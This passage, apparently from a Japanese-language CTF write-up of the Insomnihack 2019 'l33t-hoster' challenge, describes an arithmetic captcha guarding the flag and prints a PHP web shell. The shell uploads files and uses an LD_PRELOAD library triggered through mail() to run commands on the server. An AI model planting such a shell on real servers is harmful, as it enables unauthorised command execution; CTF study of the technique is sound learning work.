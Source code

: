 ## captcha
まだまだ問題は終わらない。get_flagを実行するとcapchaがでてきて入力を待っている。
```
// /get_flag

Please solve this little captcha:
2887032228 + 1469594144 + 3578950936 + 3003925186 + 985175264
11924677758 != 0 :(
```

足し算の結果が問われているので自動で解答を出すプログラムを書く必要がある。これを解くとようやくflagが手に入る。

最終的にshell.waniに書く内容は下のようになる
```php
<?php

// Upload the solver and shared library
move_uploaded_file($_FILES['captcha_solver']['tmp_name'], '/tmp/captcha_solver');
move_uploaded_file($_FILES['evil']['tmp_name'], '/tmp/evil_lib');

// Set the captcha_solver as executable
putenv('LD_PRELOAD=/tmp/evil_lib');
putenv("_evilcmd=chmod +x /tmp/captcha_solver");
mail('a','a','a');

// Run the captcha solver
putenv("_evilcmd=cd / && /tmp/captcha_solver");
mail('a','a','a');

// Print output
echo file_get_contents('/tmp/_0utput.txt');
?>
```

## 疑問
* Dockerで動かしているapacheのphp設定はどこに書けばよいのか？
* base64エンコードがphp部分にだけ行われているがこれで良いのか？
* 送信したファイルがphpとして実行されるとき、先頭の数バイトに書かれている文字はエラーにならないのか？
* 解答コードに含まれている`AA`の文字は何か？
* なぜmail関数を使うのか、他の関数ではだめなのか？



## 参考にしたwriteup
https://corb3nik.github.io/blog/insomnihack-teaser-2019/l33t-hoster

